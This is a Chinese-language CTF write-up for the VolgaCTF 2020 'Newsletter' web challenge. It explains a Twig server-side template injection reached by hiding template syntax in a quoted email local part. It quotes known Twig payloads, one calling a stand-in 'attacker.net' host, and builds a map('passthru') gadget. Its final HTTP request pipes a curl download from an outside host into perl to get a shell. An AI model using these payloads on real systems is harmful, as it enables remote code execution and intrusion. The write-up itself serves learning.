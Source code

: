 # VolgaCTF Qualifier - 2020

## Web / 200 - Newsletter

>
> Subscribe to our newsletter!
>
> URL: http://newsletter.q.2020.volgactf.ru/
>

### Solution

By [@Cyku](https://cyku.tw)

原文連結：[https://cyku.tw/volgactf-2020-qualifier/](https://cyku.tw/volgactf-2020-qualifier/)

---

這題是 PHP 白箱題，有提供 Source Code 如下：

```php
<?php
namespace App\Controller;

use Symfony\Bundle\FrameworkBundle\Controller\AbstractController;
use Symfony\Component\HttpFoundation\Response;
use Symfony\Component\HttpFoundation\Request;
use Symfony\Component\Mailer\MailerInterface;
use Symfony\Component\Mime\Email;

class MainController extends AbstractController
{
    public function index(Request $request)
    {
      return $this->render('main.twig');
    }

    public function subscribe(Request $request, MailerInterface $mailer)
    {
      $msg = '';
      $email = filter_var($request->request->get('email', ''), FILTER_VALIDATE_EMAIL);
      if($email !== FALSE) {
        $name = substr($email, 0, strpos($email, '@'));

        $content = $this->get('twig')->createTemplate(
          "<p>Hello ${name}.</p><p>Thank you for subscribing to our newsletter.</p><p>Regards, VolgaCTF Team</p>"
        )->render();

        $mail = (new Email())->from('newsletter@newsletter.q.2020.volgactf.ru')->to($email)->subject('VolgaCTF Newsletter')->html($content);
        $mailer->send($mail);

        $msg = 'Success';
      } else {
        $msg = 'Invalid email';
      }
      return $this->render('main.twig', ['msg' => $msg]);
    }


    public function source()
    {
        return new Response('<pre>'.htmlspecialchars(file_get_contents(__FILE__)).'</pre>');
    }
}
```

從程式碼可以看到我們傳送過去 $email 變數會被取 @ 前方的字串指派給 $name，然後 $name 直接被帶入 Twig 的模板字串中並建立模板執行，所以這邊就有個 Twig 的 Server-Side Template Injection，但首先我們必須繞過 `filter_var($request->request->get('email', ''), FILTER_VALIDATE_EMAIL)` 這行的限制，必須是合法的 email 又包含模板語法。

而我的隊友在 Stack Overflow 上找到這篇文章：[PHP FILTER_VALIDATE_EMAIL does not work correctly](https://stackoverflow.com/questions/19220158/php-filter-validate-email-does-not-work-correctly)，底下回覆提供了頗為完整的合法 email 範例列表，其中可以看到一個很重要的範例：`"()<>[]:,;@\\"!#$%&'*+-/=?^_``{}| ~.a"@example.org`，這個範例告訴我們，如果 email 中的 username 包括一些特殊符號，只要使用雙引號 " 將 username 包夾起來，就會被視為一個合法的 email，所以我們能構造 `"{{3*4}}"@a.a` 這樣的 Payload 就能躲過 filter_var 的限制。

接著就是嘗試作 SSTI 的利用，如果直接上網 Google，通常都會找到這樣的 Payload：

[PayloadsAllTheThings/Server Side Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig)
```
{{self}}
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

這個 Payload 是利用內建 \_self 變數來取得 \Twig\Template 的實例來執行惡意函式作利用，但如果去查官網 [Documentation](https://twig.symfony.com/doc/1.x/deprecated.html#globals) 會發現這個變數早已被棄用，現在只會回傳一個字串代表當前模板名稱 QQ，所以我們必須尋找新的利用方式。

在 Twig 模板裡面支援 filter 語法，可以呼叫內建或自定義的 filter 函式在輸出變數時對變數值作格式化或其他處理，譬如：`{{ "aa"|upper }}` 可以將 aa 在輸出時變成 AA。

於是我就以字串 `new TwigFilter(` 搜尋程式碼裡所有內建的 filter 函式，其中發現一個非常有趣的函式：

```php
new TwigFilter('map', 'twig_array_map')

function twig_array_map($array, $arrow)
{
    $r = [];
    foreach ($array as $k => $v) {
        $r[$k] = $arrow($v, $k);
    }

    return $r;
}
```

沒錯，直接把我們可控的變數 $arrow 當作函式名稱進行呼叫，恰好 $v 也是我們可以控制的變數，只要找到一個函式可以執行系統指令並允許傳遞第二個參數，就能 GetShell，這種函式也不少，例如 `passthru ( string $command [, int &$return_var ] )` 就很符合我們的需求。

所以只要注入模板 `{{ ['id']|map('passthru') }}` 就能執行 id 系統指令，結合前面 email 的規則就能夠造出 `"{{['id']|map('passthru')}}"@a.a` 的 Payload，不過實測後發現就算使用雙引號包夾，只要有空白字元出現就會被判定為不合法的 email，好在只是用不了空白的 Command Injection 對 CTF 玩家來說並不是個問題。

最後成功 GetShell 的 Payload：

```plaintext
POST /subscribe HTTP/1.1
Host: newsletter.q.2020.volgactf.ru
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Referer: http://newsletter.q.2020.volgactf.ru/subscribe
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Connection: close
Upgrade-Insecure-Requests: 1

email="{{['curl${IFS}cyku.tw:8080|perl']|map('passthru')}}"@a.a
```

發現 flag 藏在 /etc/passwd 裡
![Newsletter_01](Newsletter_01.png)

Flag：`VolgaCTF_6751602deea2a308ab611eeef7a4e961`